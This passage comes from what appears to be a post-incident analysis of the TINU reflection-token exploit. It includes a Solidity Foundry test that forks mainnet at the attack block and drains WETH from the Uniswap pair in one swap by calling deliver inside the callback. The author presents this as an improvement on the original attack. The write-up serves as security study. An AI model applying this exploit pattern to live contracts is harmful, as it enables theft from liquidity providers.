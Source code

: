 For simplicity, let's assume the attacker already owns a large amount of WETH and does not use a flash loan.

In TINU, approximately 800 WETH can be exchanged for nearly $rSupply$ TINU tokens. After delivering all the tokens obtained, one can directly `swap` them for WETH, resulting in a net profit of about 22.1445 WETH, which is approximately 0.004 WETH higher than the original attack. The original attack only used 104.85 WETH for the first purchase, then executed `skim->deliver->swap`. The attacker might have used a method and data obtained through testing or more complex mathematical calculations, which we will not delve into here.

``` solidity
function testSwap() external {
    uint attackBlockNumber = 16489408;
    vm.rollFork(attackBlockNumber);
    uint256 rTotal = uint256(vm.load(address(tinu), bytes32(uint256(13))));
    uint256 rExcluded = getMappingValue(address(tinu), 3, address(0xC77aab3c6D7dAb46248F3CC3033C856171878BD5));
    uint256 tinuDeliver = tinu.tokenFromReflection(rTotal-rExcluded)-0.1*10**9;

    // uint256 amountOut = 1 ether;
    uint256 amountOut = 22144561460967547974;
    tinu_weth.swap(tinuDeliver, amountOut, address(this), "1");
    emit log_named_decimal_uint("WETH balance", weth.balanceOf(address(this)), weth.decimals());
}

function uniswapV2Call(address /*sender*/, uint /*amount0*/, uint /*amount1*/, bytes calldata /*data*/) external {
    tinu.deliver(tinu.balanceOf(address(this)));
    // (uint reserve0, uint reserve1, ) = tinu_weth.getReserves();
    // uint256 profit = getAmountOut(tinu.balanceOf(address(tinu_weth))-reserve0, reserve0, reserve1);
    // console2.log(profit);
    // 22144561460967547974
}
```

Furthermore, there is no need to purchase TINU tokens in advance. As shown in the code above, the attack can be completed directly in one `swap`, only needing to `deliver` the TINU tokens in the callback and calculate the final amount of WETH that can be exchanged in the `swap` parameter in advance. This calculation is complex, so it can be tested first in the callback to obtain the data before using it in the `swap`.

### Attack Flow

Analyze the entire attack process of the [attacker address](https://etherscan.io/address/0x14d8ada7a0ba91f59dc0cb97c8f44f1d177c2195).

![](../image/230126_TINU.assets/5633.png)
